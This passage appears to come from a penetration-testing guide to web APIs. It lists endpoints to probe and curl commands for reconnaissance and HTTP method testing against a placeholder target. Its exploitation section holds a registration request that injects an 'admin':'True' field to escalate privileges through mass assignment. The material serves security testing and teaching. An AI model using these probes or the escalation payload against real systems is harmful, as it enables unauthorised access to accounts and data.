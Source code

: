 #### Manual API Discovery
```bash
# Common API endpoints to test
/api/
/api/v1/
/api/v2/
/rest/
/graphql
/swagger/
/docs/
/openapi.json
```

### API Testing Methodology

#### Initial API Reconnaissance
```bash
# Basic API information gathering
curl -i http://target.com:5001/api/v1/users
curl -i http://target.com:5001/api/v1/books

# Check for API documentation
curl http://target.com/swagger.json
curl http://target.com/api-docs
curl http://target.com/openapi.json
```

#### HTTP Method Testing
```bash
# Test different HTTP methods
curl -X GET http://target.com/api/v1/users
curl -X POST http://target.com/api/v1/users
curl -X PUT http://target.com/api/v1/users
curl -X DELETE http://target.com/api/v1/users
curl -X PATCH http://target.com/api/v1/users
curl -X OPTIONS http://target.com/api/v1/users
```

### API Exploitation Examples

#### User Registration Abuse
```bash
# Standard registration
curl -d '{"username":"test","password":"pass","email":"test@test.com"}' \
  -H 'Content-Type: application/json' \
  http://target.com/api/v1/register

# Privilege escalation attempt
curl -d '{"username":"admin2","password":"pass","email":"admin@test.com","admin":"True"}' \
  -H 'Content-Type: application/json' \
  http://target.com/api/v1/register
```
